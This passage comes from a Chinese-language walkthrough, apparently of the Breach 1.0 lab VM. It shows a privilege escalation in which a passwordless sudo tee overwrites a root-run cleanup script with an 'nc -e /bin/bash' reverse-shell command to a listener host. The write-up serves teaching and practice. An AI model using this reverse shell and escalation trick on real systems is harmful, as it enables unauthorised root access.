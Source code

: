 我们虽然没有权限写入，但是tee本身的功能将数据重定向到文件。而我们可以以root权限对脚本使用tee命令，而不需要密码

```bash
echo "nc -e /bin/bash 192.168.110.131 1338" | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

![image-20200630031810655]({{ site.url }}/assets/Breach_1.0.assets/image-20200630031810655.png)

监听并等待脚本执行

![image-20200630032325712]({{ site.url }}/assets/Breach_1.0.assets/image-20200630032325712.png)